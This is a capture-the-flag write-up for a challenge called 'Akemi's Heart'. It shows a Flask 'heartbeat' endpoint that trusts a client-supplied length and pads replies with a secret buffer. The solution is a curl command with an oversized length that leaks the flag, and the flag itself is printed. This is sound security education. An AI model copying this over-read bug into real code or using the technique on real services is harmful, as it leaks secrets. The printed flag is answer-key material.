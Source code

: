# Akemi’s Heart

<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## Challenge

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

A Flask app exposes `POST /heartbeat` that echoes your JSON:
```json
{"payload": "hi", "length": 5}
```

It always returns exactly length bytes. If your payload is shorter, it pads with a secret buffer `secret_blob`. That buffer is:

512 random bytes followed by the contents of `/flag.txt`

Code snippet: 

```python
# secret buffer = random junk + flag
secret_blob = secrets.token_bytes(512)
if os.path.exists("/flag.txt"):
    with open("/flag.txt", "rb") as f:
        secret_blob += f.read()

# heartbeat endpoint
data = request.get_json(force=True, silent=True)
payload_bytes = (data.get("payload", "")).encode()
length = int(data.get("length", 0))

extra_needed = length - len(payload_bytes)
if extra_needed <= 0:
    resp = payload_bytes[:length]
else:
    # BUG: trusts client `length`, pads with secret data
    resp = payload_bytes + secret_blob[:extra_needed]
return make_response(resp, 200, {"Content-Type": "application/octet-stream"})
```

## Solution
Exploit the trusted `length`: send a tiny (or empty) `payload` with a large `length`.
The server pads with `secret_blob`, and after the first 512 random bytes, the flag appears.

Notes:

- Any `length > 512 + len(payload)` works (e.g., 1024, 2048, 4096, 8192).
- Filter output for keywords like `GCTF`, `flag`, `ctf`.

```bash
curl -s http://188.166.183.187:34886/heartbeat -H "Content-Type: application/json" -d '{"payload":"","length":8192}' | strings | grep -iE "flag|ctf|gctf"
```

## Flag

<img width="1136" height="94" alt="image" src="https://github.com/user-attachments/assets/4a5f84a9-c93e-495f-92c6-20dbd69e0104" />

```flag
GCTF25{aK4mI_H3ARTY_tl$SU3_saD_so_$AD_c1737cad162e}
```



